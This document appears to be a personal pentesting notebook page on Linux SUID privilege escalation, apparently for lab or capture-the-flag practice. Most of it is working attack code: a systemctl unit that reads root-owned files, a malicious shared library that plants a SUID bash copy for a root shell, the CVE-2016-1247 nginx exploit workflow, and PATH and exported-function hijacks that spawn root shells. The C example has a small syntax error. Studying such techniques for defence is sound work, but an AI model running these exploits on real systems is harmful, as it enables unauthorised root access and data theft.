 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```

#### CVE-2016-1247
#cve-2016-1247  [Explanation](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html), If certain conditions are met, a user www-data is able to escalate privileges to root. 
[[SUIDs#^14400b|Enum]]
##### Exploit
Assuming enum was done and the conditions are right, download script from [here](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) , and [[Dark Arts I/File Transfer/Linux|file transfer]] it to the target, then simply run the script: 

```bash
./nginxed-root.sh /var/log/nginx/error.log

# then you need to wait for the nginx service to be restarted, or it can manually be done by root, ssh as root into server:
invoke-rc.d nginx rotate >/dev/null 2>&1

# obviously if you already have root to force it, this is useless so practically, you will need to sit and wait for nginx to restart for some other reason. 
```

#### Env Variables

^460797

This relies on weird/custom programs with suid bit set, there are 2 examples worked out here for two situations
1. Relative path used
2. Absolute path used

Which is used is determined through [[SUIDs|Enum]]
##### Relative Path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash 
# in this example, the output from strings revealed:
# service apache2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case, you can add to your $PATH and set a location you control to the front of your path, and write a program named "service" there so that when the SUID program is run, it calls to your malicious program rather than the real service program since it will check your controlled folder first. Since the calling program is root, that means your program will be run as root.

# so, write a program that spaws a shell then run SUID program

# Prepare malicious program and output to a directory you control
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c

# compile
gcc /tmp/service.c -o /tmp/service

# add your controlled directory to front of $PATH
export PATH=/tmp:$PATH

# run SUID program
/usr/local/bin/suid-env

# now you should have a root shell.
```

##### Absolute path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash
# in this example, the output from strings revealed:
# /usr/sbin/service apach2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case you will create a malicious function and make a symlink to it so that it's picked up by the vulnerable SUID program.

# Create malicious function
# malicious function copies /bin/bash to a controlled directory
# then, malicious function adds suid bit to copy of /bin/bash
# then, malicious function runs the copy of /bin/bash
# since the suid bit was set, it will be a root shell.
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

# set service program to refer to shell function, our malicious function, rather than running the actual program:
export -f /usr/sbin/service

# then just run the vulnerable suid program
/usr/local/bin/suid-env
```